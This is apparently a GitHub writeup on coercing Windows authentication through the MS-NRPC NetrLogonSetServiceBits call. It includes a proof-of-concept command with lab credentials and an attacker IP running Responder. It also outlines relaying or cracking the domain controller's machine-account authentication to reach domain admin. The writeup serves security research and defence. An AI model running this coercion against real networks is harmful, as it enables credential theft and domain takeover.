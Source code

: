 # MS-NRPC - Remote call to NetrLogonSetServiceBits (opnum 22)

## Summary

+ **Protocol**: [[MS-NRPC]: Netlogon Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/ff8f970f-3e37-40f7-bd4b-af7336e4792f)

+ **Protocol UUID**: 12345678-1234-abcd-ef00-01234567cffb

+ **Protocol version**: 1.0

+ **SMB Named pipe**: `\PIPE\NETLOGON`

+ **Function name**: [`NetrLogonSetServiceBits`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/481bb1f8-319a-40fb-89cd-ad1f6a146d9d)

+ **Function operation number**: `22`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\NETLOGON` and bind to the desired [`MS-NRPC`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/ff8f970f-3e37-40f7-bd4b-af7336e4792f) protocol (with uuid `12345678-1234-abcd-ef00-01234567cffb` and version `1.0`) in order to perform remote procedure calls to functions in the [`MS-NRPC`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/ff8f970f-3e37-40f7-bd4b-af7336e4792f) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\NETLOGON` This pipe is connected to the protocol [[MS-NRPC]: Netlogon Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/ff8f970f-3e37-40f7-bd4b-af7336e4792f) and allows to call RPC functions of this protocol. We will then call the remote [`NetrLogonSetServiceBits`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/481bb1f8-319a-40fb-89cd-ad1f6a146d9d) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
NetrLogonSetServiceBits('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
NTSTATUS NetrLogonSetServiceBits(
   [in, unique, string] LOGONSRV_HANDLE ServerName,
   [in] DWORD ServiceBitsOfInterest,
   [in] DWORD ServiceBits
 );
```

## References

+ Documentation of protocol [MS-NRPC]: Netlogon Remote Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/ff8f970f-3e37-40f7-bd4b-af7336e4792f

+ Documentation of function `NetrLogonSetServiceBits`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/481bb1f8-319a-40fb-89cd-ad1f6a146d9d